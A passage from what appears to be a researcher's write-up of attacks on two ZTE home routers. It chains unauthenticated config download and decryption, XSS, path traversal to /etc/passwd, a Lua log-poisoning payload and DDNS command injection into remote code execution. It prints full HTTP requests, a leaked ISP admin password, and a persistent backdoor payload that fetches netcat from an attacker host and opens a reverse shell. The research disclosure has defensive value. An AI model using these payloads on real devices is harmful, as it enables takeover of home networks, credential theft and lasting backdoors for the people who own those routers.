So it is safe to assume that with most of these ZTE devices the master encryption key can be found by reversing the appropriate version of `cspd`, that way it is possible to decrypt the config and steal user accounts even devices running firmware versions where they key has not been documented online.


After finally decrypting the config we can get access to all user credentials registered in the device from services like the web UI, FTP, PPOE, SMB, WiFi password etc.


In this example we retrieve the credentials for the `default admin super user` issued by the ISP, this user is `not intended to be found by end users` and has extended control over the device's settings.


At the bottom of the decrypted config file we can also find the default credentials labeled for the "SSH" service but we can notice that these are `the same credentials` we used to access the `UART interface`, coming full circle.

## Reflected XSS in Menu3Location

After playing around on some pages of the interface while proxying in Burp i noticed that the `Menu3Location` get parameter is reflected in almost all of them and it's never sanitized.

```lua
cgilua.lp.include("./public/library/commpage_status_comm.lp")
local sess_id = cgilua.remote_addr
local Menu3Location = cgilua.QUERY.Menu3Location
if Menu3Location ~= nil then
  session_set(sess_id, "Menu3Location", Menu3Location)
end
cgilua.put([[

<div id="_MenuInfo" style="display:none;">
<div id="_NextPageInfo">]])
cgilua.put(nextpage)
cgilua.put([[
</div>
<div id="_NowSupIdInfo">]])
cgilua.put(dmenuapi.query_page_info(nextpage, 1))
cgilua.put([[
</div>
<div id="_NowMidIdInfo">]])
cgilua.put(dmenuapi.query_page_info(nextpage, 2))
cgilua.put([[
</div>
<div id="_NowThdIdInfo">]])
cgilua.put(dmenuapi.query_page_info(nextpage, 3))
cgilua.put([[
</div>
<div id="_Menu3Location">]])
cgilua.put(session_get(sess_id, "Menu3Location"))
cgilua.put([[
</div>
</div>
]])
```

We can verify this by viewing the template part at `/home/httpd/common_page/subcommonpageFrame.lp`, the value is directly stored from the GET param and not sanitzed before reflection. This is another vector that can be used to steal or create new accounts in case the decrypted device config cannot be retrieved.


By sending a GET request to the following endpoint `/getpage.lua?pid=123&nextpage=Internet_Alg_t.lp&Menu3Location%3D%3Cscript%3Ealert%28%29%3C%2Fscript%3E` (or any endpoint with `Menu3Location`) an alert is triggered.

## Directory leakage in DMS settings

If we are logged-in as the super user we have access to a DMS configuration page.


DMS stands for digital media server, it shares media (photos, videos, music) stored on a USB drive plugged into your router or on network storage, so other devices (smart TVs, game consoles, phones, laptops) can access and stream them over the network.


When sending a request through the ui a provided directory is scanned and returns the names of any directories within it.

If we open the file at `home/httpd/common_page/queryDir_lua.lua` we see the source code responsible for the directory scanning.

```lua
local lfs = require("lfs")
local urlcode = require("cgilua.urlcode")
local querydir = sapi.Request.servervariable("QUERY_STRING")
querydir = urlcode.unescape(querydir)
if querydir == nil or querydir == "" then
  return
end
local list = ""
for file in lfs.dir(querydir) do
  if file ~= ".." and file ~= "." then
    local f = querydir .. "/" .. file
    local attr = lfs.attributes(f)
    if attr ~= nil and attr.mode == "directory" then
      list = list .. file .. "/"
    end
  end
end
cgilua.put(querydir .. "|" .. list)
```

A directory path from the URL query string is saved, decoded, and then all subdirectories inside it are listed. It then outputs the given directory path followed by a `|` and a slash-separated list of those subdirectories. There is not sanitization in place so we can scan every folder on the filesystem for folders inside of them.


In this example we get the names of the directories inside `/home/httpd`.

## Local file inclusion at nextpage param

The `nextpage` param is used by `/getpage.lua` endpoint to set the next page that will render on the next request for the logged-in user when doing an action. The interface renders the whole UI at the `/` endpoint and keeps the state of the active page and the next page.

```lua
function parseRequest()
  local redirect_script = ""
  local pid = cgilua.QUERY.pid
  local urlfile = cgilua.urlpath
  local reqType = ""
  if urlfile == nil then
    g_logger:warn("urlfile is nil, Error!")
    return
  end
  if urlfile ~= "getpage.lua" or pid == nil then
    redirect_script = urlfile
    reqType = "REQ_SINGLEFILE"
  end
```

By having a look at `/home/httpd/urlsafe.lua` we see that `getpage.lua` is no an actual file on the system that gets rendered but a virtual endpoint determined from the `urlfile` value.

The `redirect_script` value is set to our input and the `reqType` value is set to `REQ_SINGLEFILE`.

```lua
if pid == "1000" or pid == "1001" or pid == "1002" or pid == "101" or pid == "100" then
    redirect_script = "template.lua"
    reqType = "REQ_TEMPLATE"
  end
  if pid == "123" then
    redirect_script = cgilua.QUERY.nextpage
    reqType = "REQ_SUBPAGE"
  end
  if pid == "1005" then
    redirect_script = cgilua.QUERY.nextpage
    reqType = "REQ_TRUSTED"
  end
  if pid == "1007" then
    redirect_script = "wizardFrame_t.lp"
    reqType = "REQ_WIZARD"
  end
  g_logger:debug("reqType = " .. reqType .. ",redirect_script = " .. redirect_script)
  return reqType, redirect_script
end
```

Looking more into it, we can see that if `pid` is `123` then the `reqType` variable is set to `REQ_SUBPAGE`.

```lua
local function runMenurequest(redirect_script, sess_id)
  if cmapi.file_exists("./common_page/" .. redirect_script) ~= 1 then
    pushPageNotFound()
    return
  end
  local output = [[
<script type="text/javascript">
window.location.href = "/";
</script>]]
  g_logger:debug("output = " .. output)
  if checkLoginSucc(sess_id, output) then
    add_dmenu()
    session_set(sess_id, "nextpage", cgilua.QUERY.nextpage)
    local params_tmp = initIncludeEnv(sess_id)
    params_tmp.nextpage = redirect_script
    cgilua.lp.include("./common_page/subcommonpageFrame.lp", params_tmp)
    session_update(sess_id)
  end
end
```

The `runMenurequest` function is the handler for `REQ_SUBPAGE`, here we see that if the `checkLoginSucc` returns true, the `/home/httpd/common_page/subcommonpageFrame.lp` template is loaded with our unsanitized `nextpage` param.

```lua
<div id="childPage">
]])
  cgilua.lp.include("./common_page/" .. remove_suffix_filename(nextpage), getfenv(1))
  cgilua.put([[

</div>
</div>
</div>
]])
```

At line `65` we can see that `cgilua.lp.include` function is called with `nextpage` as the parameter and passsed through the `remove_suffix_filename`.

```lua
function remove_suffix_filename(name)
  local i = string.len(name)
  local tmp = string.sub(name, i - 3, i)
  if string.lower(tmp) == ".lua" then
    return string.sub(name, 1, i - 4)
  end
  return name
end
```

Back to `/home/httpd/urlsafe.lua` we see that the `remove_suffix_filename` function removes the `.lua` suffix from a string if it has it, so it makes no difference for us.

```
GET /getpage.lua?pid=123&nextpage=ManagDiag_StatusManag_t.lp&Menu3Location=0 HTTP/1.1
Host: 192.168.1.254:80
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
```

```
GET /getpage.lua?pid=123&nextpage=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&Menu3Location=0 HTTP/1.1
Host: 192.168.1.254:80
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
```

Because the `nextpage` is not sanitized or no file check is performed when the `pid` is set to `123` path traversal is possible by url-encoding the `nextpage` parameter, so sending these example two requests will cause the server to leak `/etc/passwd`.



## Log poisoning RCE via LUA payload

Since `httpd` on this device is configured to run `lua` scripts, it makes sense to look for reflections in files we can include via the `LFI` we just found.

After looking around the filesystem, one file that immediately caught my eye was the file at `/var/userlog.txt`, this file stores the device log that can be accessed from the "Log Management" page.


By default the log level is set to `Critical` which doesn't create any reflection we can control, however if we set the log level to `Notice` the username of the logged-in user is reflected.


We can abuse this by changing our own username or by creating a new user with a `lua` rce payload as the username and then including `/var/userlog.txt` via our `LFI`, to cause it to be evaluated.

```lua
<? _G.os.execute('echo "pwned"') ?>
```

On this payload we use the `_G` (for global) variable that is set by `cgilua` and gives us access to native lua libraries like `os` that we can use to execute OS commands.


As we can observe in the UART console output, our command run succesfully.

## Command injection in DDNS settings

After browsing around the admin panel in the "Internet" section there is a page for configuring DDNS.

Dynamic DNS (`DDNS`) is a service that automatically updates the DNS records of a domain when the IP address of the host changes. It’s commonly used for devices or networks with dynamic IP addresses assigned by ISPs. DDNS ensures that users can consistently reach a device or server via a domain name, even if its IP changes. This is especially useful for turning the router into a home server, or for forwarding services from the LAN to the public internet while maintaining a static DNS domain.


We can test entering some input to observe what actions are made on the device, we will use `username`, `password` and `hostname` as the parameters.


The following request is made.


Now if we take a look at the console we will see something very interesting.


The `strCmd` log section shows us that a command call was made to `inadyn` with our provided input as parameters. This can be a great vector to test for `command injection`.


After research i have tested lots of different parameters both here and across other endpoints on the device, and i have found that almost all inputs have some sort of validation implemented. As with this example i tried to add a `;` semicolon to the `DomainName` parameter which resulted in a response with an error.


All inputs i tested besides the `username` and `password` fields for the `/common_page/Ddns_lua.lua` endpoint are sanitized. I also found out that using spaces breaks the execution of the payload, but other than that it is easy to inject and issue arbitrary commands.

Necessary pre-load request:
```
GET /getpage.lua?pid=123&nextpage=Internet_Ddns_t.lp&Menu3Location=0 HTTP/1.1
Host: 192.168.1.254:80
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
```

Payload:
```
user;echo${IFS}pwned_msg>/tmp/pwned;echo${IFS}
```

PoC command injection request:
```
POST /common_page/Ddns_lua.lua HTTP/1.1
Host: 192.168.1.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 293
Origin: http://192.168.1.254
Connection: keep-alive
Referer: http://192.168.1.254/
Priority: u=0

IF_ACTION=Apply&_InstID=IGD.DDNC1&Service=dyndns&serviceInst=IGD.DDNSS1&Name=dyndns&Server=http%3A%2F%2Fwww.dyndns.com&Enable=1&serviceUrl=http%3A%2F%2Fwww.dyndns.com&Username=user;echo${IFS}pwned_msg>/tmp/pwned;echo${IFS}&Password=password&DomainName=hostname&Btn_cancel_Ddns=&Btn_apply_Ddns=
```

This is an example of a malicious username payload that creates a file named `pwned` at `/tmp` to prove the concept.


At the UART log we observe that partial output of the original `inadyn` progam is returned, but we also see our `command injection` payload succesfully pass through.


Navigating at `/tmp` and listing the files we see that the `pwned` file was created with our arbitrary contents validating the vulnerability.

## Putting it all together for a 0click RCE

So now after discovering all of the vulnurabilities we are in a place where we can chain them together to construct a final exploit.

The pipeline goes something like this:

1. We leak the device configuration file from the `unprotected endpoint`.
2. We decrypt it using `known research on ZTE routers` to extract an interface super-user and it's password.
3. We log in.
4. We change our username to a `lua rce payload`.
5. We change the log level to `notice` from `critical`.
6. We leverage the `LFI` to include `userlog.txt` which triggers the `RCE`.
7. We change username back to original one, clear logs and log-out.

Or alternatively

1. We leak the device configuration file from the `unprotected endpoint`.
2. We decrypt it using `known research on ZTE routers` to extract an interface super-user and it's password.
3. We log in.
4. We change the DDNS username to a `command injection payload`.
6. `RCE` is triggered.

## Backdooring and gaining persistance

Now that we have found a way to bypass authentication and execute commands/code it is in order to explore some ways of maintaining `persistance` on the device even `after reboot`.



After running `mount` we see that all partitions are either `ro` (read-only) or are `tmpfs` meaning that we either cannot write files on the partition or we can but they are stored in-RAM and are deleted after re-boot.

So modifying an existing file that could be executed on boot is out of the box, since all changes we can make to files in writable directories get deleted at re-boot due to `tmpfs`.

But if that's the case then when a user makes a change in the router settings, how does it persist? The answer to that is that all user state changes are saved to the main config file that the `sendcmd` and `cspd` manage. Also that is the same file we can leak and decrypt.


At some point while searching for a back-door vector, i noticed that the file at `/tmp/pwned` gets created even after i re-boot the router. We can also verify that it runs by observing output from `inadyn` in the `UART console`. This happens because the command injection payload is saved in the `main database`, and it so happens that `DDNS` is started with the saved parameters on boot, this makes it the perfect vector for back-dooring the device.


So now all we have to do is to modify the `command injection` payload in the DDNS settings to act as a stager that downloads a final persistance payload.

I will use this [https://github.com/darkerego/mips-binaries/blob/master/netcat](https://github.com/darkerego/mips-binaries/blob/master/netcat) a statically compiled netcat binary for the MIPS architecture, i could even write by own reverse shell in `c` and compile it for MIPS but i will keep it simple for now.

```
python3 -m http.server 9090
```

After downloading the `netcat` binary, im opening a `local python HTTP` server on `port 9090` as the first step. For the second step i will open a `reverse shell listener` on `port 4545` using `netcat`. For this PoC i will use the LAN IP (`192.168.1.1`) my laptop gets assigned when connected to the local network, but the same exploit will work with a public IP too. 

Command injection payload:
```sh
user;sh -c 'cp /bin/ls /tmp/netcat;wget http://192.168.1.1:9090/netcat -O /tmp/a;cat /tmp/a>/tmp/netcat;rm /tmp/a;/tmp/netcat 192.168.1.1 4545 -e /bin/sh';echo 
```

With encoded spaces:
```
user;sh${IFS}-c${IFS}'cp${IFS}/bin/ls${IFS}/tmp/netcat;wget${IFS}http://192.168.1.1:9090/netcat${IFS}-O${IFS}/tmp/a;cat${IFS}/tmp/a>/tmp/netcat;rm${IFS}/tmp/a;/tmp/netcat${IFS}192.168.1.1${IFS}4545${IFS}-e${IFS}/bin/sh';echo${IFS}
```


1. `sh -c '...'`
 - This runs everything inside the quotes as a separate shell command, it makes the injection payload more stable.

2. `cp /bin/ls /tmp/netcat;`
 - Copies the `/bin/ls` binary to `/tmp/netcat`. This is done to ensure the file `/tmp/netcat` exists and is `executable`, eventually it will be overwritten.

3. `wget http://192.168.1.1:9090/netcat -O /tmp/a;`
 - Downloads the MIPS netcat from http://192.168.1.1:9090/ (attacker machine) and saves it as `/tmp/a`.

4. `cat /tmp/a > /tmp/netcat;`
 - Overwrites `/tmp/netcat` with the contents of the downloaded file. The previously copied `/bin/ls` content is replaced by the downloaded binary.

5. `rm /tmp/a;`
 - Removes the temporary downloaded file `/tmp/a`.

6. `/tmp/netcat 192.168.1.1 4545 -e /bin/sh`
 - Connects to `192.168.1.1` (attacker machine) on port 4545. The `-e /bin/sh` part tells it to execute `/bin/sh` and pipe its input/output over the connection.
 - This essentially gives us a remote shell (a backdoor).

If this payload is injected a connection will be made back to the defined server IP on-boot and every time the DDNS check is triggered. 

# Round two: ZXV10 H201L

Exploit and backdoor code: [https://github.com/TasosY2K/zte-router-0day-rce/tree/main/exploit/ZXV10-H201L](https://github.com/TasosY2K/zte-router-0day-rce/tree/main/exploit/ZXV10-H201L)

## Getting UART

### Reconnaissance

This time i was not able to find an `FCC ID` for this device as it was probably never in the US, however there is alot of documentation related to this device online. I went ahead and took it apart, as i did not find much info specifically related to reverse engineering it online.


And once again it is very easy to spot the rudimentary UART pins. We also get a better image of the chips and ports available on the device should we need them for the reverse engineering process.


This time the vendor made the process even easier for us by having the pins already soldered to the UART slots and by also having them correctly labeled.


We connect the appropriate pins mapped to the Arduino like so:

```
Arduino => Router

VCC - 3V3 (not needed)
GND - GND
RX  - RX
TX  - TX
```

The `RX` and `TX` connections should actually be reversed, but for some reason these are the connections that worked, so we're keeping them like this.

### Getting a shell

After using `picocom` once again with `baudrate 115200` we are met with the device's bootlog.


We notice that this time `U-Boot` is used, this can make firmware extraction easier if needed due to `U-Boot`'s embedded firmware utilities.


I tried logging-in using some default credentials i found online.

```
CytaAdmRes:d5l_cyt@_Adm1n
```

I tried lot's of them with no luck. I will come back to this and i will attempt to find the credentials used for UART but for now i will continue to other vectors. Besides that a read-only UART console is still valuable as it reaveals information about the actions taking place on the router.

For this device in general i took more of a black-box approach.


I did an `nmap` scan to see what ports are exposed by default on the device. One of the services that immediatelly caugyht my eye was `telnet`, since it is used to expose a shell or an RTOS on routers.


Luckilly enough the defaukt credentials i found worked on telnet, and sure enough we can get the contents of `/etc/shadow` indicating `root` permissions. We also notice a user called `cyt@adm!nu$3r` with an MD5crypt (`$1$`) hashed password, this could be the user needed for `UART access` so we will get back to it later.

Now that we have a debug root shell we can begin hacking the device for real.

## Understanding the device processes

Now that we have control over the device let's do some digging around to see what tools we have available to play with and what parts of the router are worth exploring.


We see that once again the `sencmd` utility is available for configuring the router. Also we are running on `Busybox`, so we have limited binaries to use but this time we actually have more than we did on the previous router, this is something that can make our lives easier while reverse engineering it.


We query `procfs` to get info about the running processor. Again we are dealing with the MIPS architecture.


We can use the `sendcmd` utility to check running processes related to the router's functionality. The ones that are interesting to us are `httpd` and `cspd` for now.


After navigating to the `/home/httpd` directory, looking for source code, i was met with a large number of `.gch` files. There is no accurate documentation outlining such file format, so after digging around inside the device and looking through alot of them i came to the conclusion that they are templating files used by a propriatery `templating engine` embedded into the `httpd` service.


<hr>


They have lot's of similarities in the structure and format of other common templating engines. By knowing this it is safe to assume that in order to touch on the deeper logic of the router i'd have to reverse engineer the `httpd` binary. I had intended to do just that, however i ended up getting RCE by just doing some `blackbox` testing as i mentioned before. I am sure that the `httpd` service is full of bugs as i was able to find [documented crashes](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45415) and overflows on the `httpd` used by other similar routers, this is something me and `@ckrielle` will look into, in the future.

So let's begin by leaking the web UI admin user credentials and log-in to try to find vulnerabilities. We do it by using the command `sendcmd 1 DB p DevAuthInfo`.


In this case the creds were the same ones we found online, but this is not always the case and can vary from device to device.

```
CytaAdmRes:d5l_cyt@_Adm1n
```


Navigating to port 80 http, we are met with a very old-looking log-in page.


After using the credentials we extracted we have full control of the web interface and can test out the functionalities.

## Authentication bypass via unauthenticated access to device config

So after logging-in i immediatelly went to check if the same config leaking bug exists on this router too.


```
POST /getpage.gch?pid=101 HTTP/1.1
Host: 192.168.1.1
Content-Length: 137
Cache-Control: max-age=0
Origin: http://192.168.1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysQuwz2s3PjXAakFJ
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/getpage.gch?pid=1002&nextpage=manager_dev_config_t.gch
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundarysQuwz2s3PjXAakFJ
Content-Disposition: form-data; name="config"


------WebKitFormBoundarysQuwz2s3PjXAakFJ--
```

And lucky for me it really does exist. I am able to use the `/getpage.gch` to download the device config without having logged-in as any user, using the request provided in the example. And same as the previous device this config is using the proprietary ZTE format for encrypting the configs. However the script i wrote is able to distinguish between the different types of formats and it can decrypt this one too (similarly to `zte-config-util`). The fact that the same bug exists in both of the devices i tested, but also in other similar devices (quick google search will yield results) makes me assume that this is not an unitended vulnerability but was put in place deliberately by ZTE as an extra measure to access all of the devices, without realizing that the encryption keys can easily be extracted by reverse engineering the devices through physical access. Kinda scary to think that these devices were very widely used in many parts of the world.

### Decrypting(?) the device config

We can use the zte config tool [https://github.com/mkst/zte-config-utility](https://github.com/mkst/zte-config-utility) to decrypt it if we know the key and get back the xml file containing the users.


### Device config format

I will not explain the device format again as i did so for the previous device, however this is an older type can there are differences.


We can see some of the differences compared to the config of `ZXHN H168N` if we open the config using a hex editor.

The script i wrote for the config of the previous router also works on the current config type. In this example i tried using the encryption key `Renjx%2$CjM` retrieved from the `zte-config-util` source code that specifies it is used by `ZXV10 H201L`. On second review i realized that both on `zte-config-util` and on my custom script no key was needed cause the device config was of `type 0` meaning no encryption is actually used, only `zlib` compression. So i assume that ecryption was introduced in later versions of the firmware for this device.


Now that we have the original decompresses config we can browse for some interesting data.


We see that the credentials already documented online are used for the `super-user`, and we also grab the ones for the default `end-user`.

## Command injection in DDNS settings

Visiting the "Application" section on the web interface, we are met once again with the `DDNS` feature.


If we enable it and enter some details.


We notice that also on the UART log, that the `inadyn` utility is called, the `strCmd` section on the logs shows us the command that run and once again we have a reflection.


This is the responsible request.


Now just like the previous router i tested (`ZXHN H128N`) all inputs appear to be validated for special characters.


All inputs except for the DDNS `user` and `password`. As we see, there is output from the call of the `inadyn` utility, this happens because we are messing with the original parameters of the command, but the fact that this happens can be used to validate our injection. Also again, just like the previous router we cannot use spaces or the command breaks, so we replace any spaces with `${IFS}`.

Command injection payload:
```
user;echo${IFS}PWNED>/var/tmp/pwned;echo${IFS}
```

Payload request:
```
POST /getpage.gch?pid=1002&nextpage=app_ddns_conf_t.gch HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 855
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/getpage.gch?pid=1002&nextpage=app_ddns_conf_t.gch
Cookie: sel_tabmenu=idx_63; sel_menu=group_8; SID=91521c36d8e9385a8c242c3c16b3efc5d5cc823919652eadfc7077b6762e70a3; _TESTCOOKIESUPPORT=1
Upgrade-Insecure-Requests: 1
Priority: u=4

IF_ACTION=apply&IF_ERRORSTR=SUCC&IF_ERRORPARAM=SUCC&IF_ERRORTYPE=-1&IF_INDEX=NULL&IFservice_INDEX=0&IF_NAME=NULL&Name=dyndns&Server=http%3A%2F%2Fwww.dyndns.com%2F&ServerPort=NULL&Request=NULL&UpdateInterval=NULL&RetryInterval=NULL&MaxRetries=NULL&Name0=dyndns&Server0=http%3A%2F%2Fwww.dyndns.com%2F&ServerPort0=80&Request0=&UpdateInterval0=86400&RetryInterval0=60&MaxRetries0=3&Name1=No-IP&Server1=http%3A%2F%2Fwww.noip.com%2F&ServerPort1=80&Request1=&UpdateInterval1=86400&RetryInterval1=60&MaxRetries1=3&Name2=easyDNS&Server2=https%3A%2F%2Fweb.easydns.com%2F&ServerPort2=80&Request2=&UpdateInterval2=86400&RetryInterval2=180&MaxRetries2=5&Enable=1&Hidden=NULL&Status=NULL&LastError=NULL&Interface=IGD.WD1.WCD3.WCIP1&DomainName=hostname&Service=dyndns&Username=user;echo${IFS}PWNED>/var/tmp/pwned;echo${IFS}&Password=password&Offline=NULL&HostNumber=NULL
```

By sending this malicious request, a file should be created at `/var/tmp/pwned` with the contents `PWNED`.


Navigating ourselves to `/var/tmp` we can confirm that indeed the file was created, thus verifying the epxloit.

## Putting it all together for a 0click RCE

This has proven to be an easier-to-exploit device, so just like tha lst time let's construct a final exploit-chain.

The steps go like this:

1. We leak the device configuration file from the `unprotected endpoint`.
2. We decompress it (no encryption is used) using `known research on ZTE routers` to extract an interface super-user and it's password.
3. We log in.
4. We change the DDNS username to a `command injection payload`.
6. `RCE` is triggered.

## Backdooring and gaining persistance

As you might have guessed since now, im going to be using the exact same vector to create a backdoor on this device.


We can run `mount` to see that all partitions are `ro` (read-only) or `tmpfs`, so we cannot write files or if we can they are stored in-RAM and are deleted after re-boot.

Let's download the MIPS compiled `netcat`.

```
wget https://github.com/darkerego/mips-binaries/raw/refs/heads/master/netcat
```

Then let's start a python server to host our payload.

```
python3 -m http.server 9090
```

Now we will use the exact same backdoor payload from `ZXHN H168N`. This time the IP my laptop got assigned is `192.168.1.5`.

Command injection payload:
```sh
user;sh -c 'cp /bin/ls /tmp/netcat;wget http://192.168.1.5:9090/netcat -O /tmp/a;cat /tmp/a>/tmp/netcat;rm /tmp/a;/tmp/netcat 192.168.1.5 4545 -e /bin/sh';echo 
```

With encoded spaces:
```
user;sh${IFS}-c${IFS}'cp${IFS}/bin/ls${IFS}/tmp/netcat;wget${IFS}http://192.168.1.5:9090/netcat${IFS}-O${IFS}/tmp/a;cat${IFS}/tmp/a>/tmp/netcat;rm${IFS}/tmp/a;/tmp/netcat${IFS}192.168.1.5${IFS}4545${IFS}-e${IFS}/bin/sh';echo${IFS}
```


(Same explanation as before):

1. `sh -c '...'`
 - This runs everything inside the quotes as a separate shell command, it makes the injection payload more stable.

2. `cp /bin/ls /tmp/netcat;`
 - Copies the `/bin/ls` binary to `/tmp/netcat`. This is done to ensure the file `/tmp/netcat` exists and is `executable`, eventually it will be overwritten.

3. `wget http://192.168.1.5:9090/netcat -O /tmp/a;`
 - Downloads the MIPS netcat from http://192.168.1.5:9090/ (attacker machine) and saves it as `/tmp/a`.

4. `cat /tmp/a > /tmp/netcat;`
 - Overwrites `/tmp/netcat` with the contents of the downloaded file. The previously copied `/bin/ls` content is replaced by the downloaded binary.

5. `rm /tmp/a;`
 - Removes the temporary downloaded file `/tmp/a`.

6. `/tmp/netcat 192.168.1.5 4545 -e /bin/sh`
 - Connects to `192.168.1.5` (attacker machine) on port 4545. The `-e /bin/sh` part tells it to execute `/bin/sh` and pipe its input/output over the connection.
 - This essentially gives us a remote shell (a backdoor).

So now for a second time we are able to completelly bypass any authentication, cause Remote Code Execution and even place peristent backdoors on ZTE devices.